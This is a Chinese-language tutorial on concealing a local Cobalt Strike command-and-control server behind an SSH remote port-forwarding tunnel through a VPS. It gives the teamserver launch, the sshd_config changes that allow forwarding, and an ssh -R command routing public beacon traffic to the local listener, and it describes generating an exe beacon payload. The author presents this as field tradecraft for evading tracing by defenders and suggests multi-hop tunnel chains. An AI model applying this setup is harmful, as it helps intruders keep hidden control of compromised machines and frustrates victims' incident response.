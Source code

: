 ```yaml
---
title: 尝试将本地 C2 隐匿于 SSH 加密隧道中
id: zhfly3649
---
```


# 尝试将本地 C2 隐匿于 SSH 加密隧道中

## 0x01 大致思路拓扑说明

![image](../img/916a359b52890d3f1c84f62c127ee838.png)

> 思路其实非常简单,首先,先在本地把 CobaltStrike 团队服务器 [ 即 C2 服务器 ] 起起来,然后再拿本地的 CobaltStrike 客户端连上去,接着,便是整个过程最关键的一步,建立 ssh 隧道并执行远程端口转发,谁和谁建呢? 也就是 本地的 linux 和 自己的 vps 建,远程转发的意思其实就是,当公网访问 vps 的某个指定端口时,就直接把这个端口的流量转到我本地机器的某个端口上,假如,本地机器机器的这个端口正好是 比如,CobaltStrike 类似这种监听器的端口,这意味着什么就很都清楚了,也就是所谓的本地 C2 beacon 上线，如果弟兄们真正理解了 ssh 隧道的远程转发,其实这些真的都挺简单的,单单只是作为使用者的我们来讲,完全不存在什么太多的技术含量在里面,ok,废话不多讲,来看实际操作

## 0x02 首先,到本地 linux 机器上启动 CobaltStrike 团队服务器[ 即 C2 服务器 ] 和 CobaltStrike 客户端,如下

> 本地启动 CS 团队服务器

```
# ./teamserver 192.168.3.137 admin 
```

![image](../img/1cc9e1c1d4bbde31369730bfcebae570.png)

> 然后启动 CS 客户端连到团队服务器上,并创建一个常规 http 反向监听器,监听 80 端口,注意,反向监听器是直接监听的本地 ip

![image](../img/0fa9da04ccea338cb5223a1e99918702.png)

> 接着,再创建一个 CS 外部监听器[协议,端口要和上面保持一致],这个外部监听器的主要作用就是把回连的流量先弹到我们公网的 VPS 机器上,因为此处全部是用域名在操作,所以,事先务必先添加一条指向 VPS 的 A 记录,如下

![image](../img/cdf1ee0fa64488baf8d62c3e0a4b0ebb.png)

![image](../img/27434cfa86509cb60072c3b72839c4ee.png)

![image](../img/9c69ae6124f646ec0fc09f5e85860eb7.png)

> 最后,再用上面创建的外部监听生成一个 exe payload

![image](../img/0881fd582d121850add4ca589ba75736.png)

## 0x03 其次,开始尝试在 本地 linux 和 vps 机器 之间建立 ssh 隧道并执行 远程端口转发, 如下

> 先开启 vps ssh 转发

```
# vi /etc/ssh/sshd_config
AllowTcpForwarding yes
GatewayPorts yes
TCPKeepAlive yes
PasswordAuthentication yes
# systemctl restart sshd.service 重启 ssh 服务 
```

> 建立隧道并执行远程转发,即把来自外部的 80 端口流量全部转到本地 192.168.3.137 的 80 端口上,而这个端口正好又是上面事先准备好的 CS 的反向监听器端口,后果就是, beacon 直接上线

```
# ssh -C -f -N -g -R 0.0.0.0:80:192.168.3.137:80 root@mail.first.com -p 22 
```

![image](../img/4b0bbb533edada1e5f04617d37aec36e.png)

> 平时记得养成习惯,远程转发建好以后,就立马就到 vps 上去看看对应端口到底有没有起来,别等了半天,一排查发现,隧道都不通,岂不尴尬,尽量别把时间浪费在这种没必要的地方

![image](../img/b4ab1425ba963ec73c7dfaf561ef73b6.png)

## 0x04 最终,本地 C2 beacon 上线效果

> 如下,从目标机器的网络连接中,几乎是看不到任何的连接痕迹,暂时已经达到了我们的 "隐蔽需求"

![image](../img/ca06d311499a2c83804953772c38b4df.png)

> 从 web log 我们也清晰的看到,走的全部都是本地 ip

![image](../img/7756a653a0c13aa0a771f2ab7ae3a330.png)

## 小结:

至此为止,关于如何利用 ssh 隧道的远程端口转发来深度隐藏 C2 服务器基本也就说完了,实战证明,这种方式的稳定性暂时还是很不错的,相比之前的 C2 隐藏方式,这种方式的优劣势都非常明显,优势就在于避免直接把自己的 C2 服务器暴露在公网中,而且非常的灵活隐蔽, 灵活在哪儿呢? 一旦发现对方可能在溯源, 我们可以立即切断连接,不过,灵活中劣势也同时被凸显了出来,此方式并不适合拿来做长控,只适合临时渗透阶段用[ 比如,你可以暂时拿这种方式渗透,然后再用其它方式长控 ],隐蔽又在哪儿呢? 此处我只演示了最简单的单层 SSH 隧道,其实,在实战中,你完全可以将 SSH 隧道的 远程 和 本地端口转发 灵活配合起来实现多级的 SSH 隧道级联 隐藏,说到这儿,想必弟兄们都已经都很非常了然了,ok,废话不多讲,有任何问题,弟兄们及时反馈,同时也非常欢迎大家来一起深度讨论交流,祝好运